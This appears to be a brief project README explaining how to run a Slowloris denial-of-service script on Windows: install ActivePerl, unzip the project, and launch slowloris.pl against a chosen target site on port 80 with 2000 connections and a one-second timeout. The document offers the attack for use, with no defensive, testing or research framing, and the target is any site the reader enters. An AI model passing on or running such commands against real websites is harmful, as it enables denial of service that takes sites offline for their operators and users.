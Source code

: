 # SlowlorisAttack on Windows

1. Download and install active perl from the given link:
http://www.activestate.com/activeperl/downloads

2. Download the SlowlorisAttack project from this page and unzip it.

3. Open cmd and go to the folder SlowlorisAttack by the cmd.

4. Hit the command:

 slowloris.pl -dns (target site address) -port 80 -timeout 1 -num 2000
